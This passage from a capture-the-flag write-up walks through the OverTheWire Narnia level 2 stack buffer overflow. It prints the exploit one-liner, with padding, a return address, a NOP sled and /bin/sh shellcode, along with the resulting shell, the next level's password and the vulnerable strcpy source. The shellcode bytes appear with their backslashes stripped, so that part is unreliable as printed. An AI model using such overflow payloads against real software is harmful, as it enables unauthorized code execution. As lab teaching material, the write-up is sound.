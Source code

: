 Here we can see that the junk bytes end at 0xffffd508 and the EIP register is overwritten at 0xffffd50C. The nop sled then begins at 0xffffd510 and the shellcode starts at 0xffffd52c. Therefore, we can modify the payload to point to 0xffffd518 which is within the bounds of the NOP sled and the shellcode will get executed.

{% highlight bash %}
narnia2@narnia:/narnia$ ./narnia2 $(python -c "print 'A'*132 +'x18xd5xffxff'+'x90'*30 +'x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0  
x0bxcdx80'")  
Illegal instruction
{% endhighlight %}

Unfortunately, this payload did not work most likely due to a small shift in the memory address. It is important to note the fact that “Illegal instruction” was outputted instead of “Segmentation fault” which is a strong indicator that the payload is close to successful execution. It is the result of the overwritten EIP register pointing to an address with meaningless assembly code. After tweaking the address a little bit (changing x18xd5xffxff to x48xd5xffxff, we get a shell as narnia3:

{% highlight bash %}
narnia2@narnia:/narnia$ ./narnia2 $(python -c "print 'A'*132 +'x48xd5xffxff'+'x90'*30 +'x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0  
x0bxcdx80'")  
$ whoami  
narnia3

$ cat /etc/narnia_pass/narnia3  
vaequeezee
{% endhighlight %}

### Source Code

{% highlight c %}
#include <stdio.h>  
#include <string.h>  
#include <stdlib.h>  
  
int main(int argc, char * argv[]){   char buf[128];   if(argc == 1){       printf("Usage: %s argumentn", argv[0]);       exit(1);  
   }   strcpy(buf,argv[1]);   printf("%s", buf);   return 0;  
}
{% endhighlight %}

We can see that this program is vulnerable, as it only expects to receive up to 128 bytes for the buffer, and does not properly check the size of the user’s input.

Narnia 3
--------

Executing the narnia3 binary we see the following:

{% highlight bash %}
narnia3@narnia:/narnia$ ./narnia3  
usage, ./narnia3 file, will send contents of file 2 /dev/null

Essentially, the program claims that it will read the contents of a file and write its contents to /dev/null.
{% endhighlight %}
